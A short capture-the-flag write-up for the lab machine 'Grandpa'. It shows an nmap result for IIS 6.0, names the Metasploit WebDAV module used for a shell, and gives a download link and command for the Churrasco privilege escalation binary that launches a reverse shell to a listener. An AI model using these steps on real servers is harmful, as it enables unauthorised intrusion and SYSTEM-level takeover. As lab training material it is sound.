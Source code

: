 # Grandpa  

## Nmap  

All ports  

`80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0`  

## Shell  

The following msfconsole module was used to gain a shell on IIS 6.0.  

`windows/iis/iis_webdav_scstoragepathfromurl`  

## Root  

Using the following vuln, I connected back to my listener as nt\authority. All files were uploaded through msf.  

Binary downloaded from.  

`https://github.com/Re4son/Churrasco/raw/master/churrasco.exe`  

`.\churrasco.exe -d "c:\Inetpub\wwwroot\root-shell.exe"`

I received a SYSTEM shell back to my listener.

